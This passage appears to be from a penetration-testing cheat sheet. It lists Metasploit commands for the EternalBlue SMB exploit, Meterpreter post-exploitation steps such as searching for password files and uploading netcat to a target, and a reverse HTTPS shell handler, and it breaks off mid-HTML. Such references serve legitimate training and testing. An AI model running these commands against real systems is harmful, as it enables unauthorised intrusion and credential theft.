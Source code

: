         use exploit/windows/smb/eternalblue_doublepulsar
        msf exploit(eternalblue_doublepulsar) > set RHOST 10.10.10.10
        RHOST => 10.10.10.10
        msf exploit(eternalblue_doublepulsar) > set PROCESSINJECT spoolsv.exe
        PROCESSINJECT => spoolsv.exe
        msf exploit(eternalblue_doublepulsar) > run

*   Experimenting with Meterpreter

    *   Get system information from Meterpreter Shell

        `sysinfo`

    *   Get user id from Meterpreter Shell

        `getuid`

    *   Search for a file

        `search -f *pass*.txt`

    *   Upload a file

        `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec`

    *   Download a file

        `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`

    *   Invoke a command shell from Meterpreter Shell

        `shell`

    *   Exit the meterpreter shell

        `exit`

*   Metasploit Exploit Multi Handler

    *   multi/handler to accept an incoming reverse_https_meterpreter

            payload  
            use exploit/multi/handler  
            set PAYLOAD windows/meterpreter/reverse_https  
            set LHOST $ip  
            set LPORT 443  
            exploit  
            [*] Started HTTPS reverse handler on https://$ip:443/

*   Building Your Own MSF Module

    *   <div class="highlight highlight-source-shell">

        <pre>mkdir -p <span class="pl-k">~</span>/.msf4/modules/exploits/linux/misc  
